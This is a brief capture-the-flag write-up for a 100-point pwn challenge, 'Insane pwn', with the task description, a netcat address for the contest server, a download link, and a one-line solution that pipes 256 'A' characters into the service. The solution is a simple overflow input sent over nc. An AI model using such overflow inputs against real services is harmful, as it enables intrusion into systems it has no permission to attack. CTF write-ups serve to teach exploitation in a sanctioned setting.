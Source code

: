 # Insane pwn


**Category:** Pwn

**Points:** 100

**Description:**

There supposed to be some uncrackable badass pwn, but, you know, all this festive mood around and i am a kind fellow, so just for this time take easy one instead...let it be our little secret. Happy New Year! :)

`nc tasks.open.kksctf.ru 10003`

https://drive.google.com/open?id=1FaEc0QH_7zvSDQNgJcVwRf3F1dQptp-d

@oldwayfarer

## WriteUp 
Just follow what the programm asks [and](https://coub.com/view/1y82jm): `python3 -c "print('A'*256)" | nc tasks.open.kksctf.ru 10003`

